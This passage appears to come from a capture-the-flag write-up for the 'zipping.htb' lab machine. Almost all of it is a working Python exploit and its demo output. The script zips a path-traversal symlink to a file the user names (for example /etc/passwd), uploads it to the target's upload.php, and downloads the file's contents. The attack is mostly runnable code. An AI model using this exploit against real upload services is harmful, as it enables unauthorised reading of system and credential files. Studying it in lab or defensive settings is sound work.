 ```python
import os, requests, sys

try:
    print('Made by sealldeveloper')
    path_trav="../../../../../../../../../../../../../../../../../../.."
    path=path_trav+sys.argv[1]
except:
    print(f'ERROR: Please provide a file path! eg. python3 {sys.argv[0]} /etc/passwd')
    sys.exit()

print('Making symlink...')
os.system(f'ln -s {path} zipslip.pdf')
print('Making zip...')
os.system(f'zip -y zipslip.zip zipslip.pdf')
print('Removing symlink...')
os.system('rm zipslip.pdf')
print('Crafting payload for uploader...')

data = {
    "submit": ""
}
url='http://zipping.htb/upload.php'
files={'zipFile':('zipslip.zip', open('zipslip.zip','rb'),'application/zip')}
print('Sending payload!')
r = requests.post(url, files=files, data=data, verify=False)
try:
    uploadedurl=r.text.split('following path:</p><a href="')[1].split('">')[0]
    url='http://zipping.htb/'+uploadedurl
except:
    print('No upload url found!')

if 'uploads' in url:
    r=requests.get(url, verify=False)
    print('Writing to \'out.txt\'...')
    with open('out.txt','w') as f:
        f.write(r.text)
print('Cleaning up...')
os.system('rm zipslip.zip')
```

Now I can demo the exploit as so:

```
$ python3 zislip-exploiter.py
Made by sealldeveloper
Making symlink...
Making zip...
  adding: zipslip.pdf (stored 0%)
Removing symlink...
Crafting payload for uploader...
Sending payload!
Writing to 'out.txt'...
Cleaning up...
```

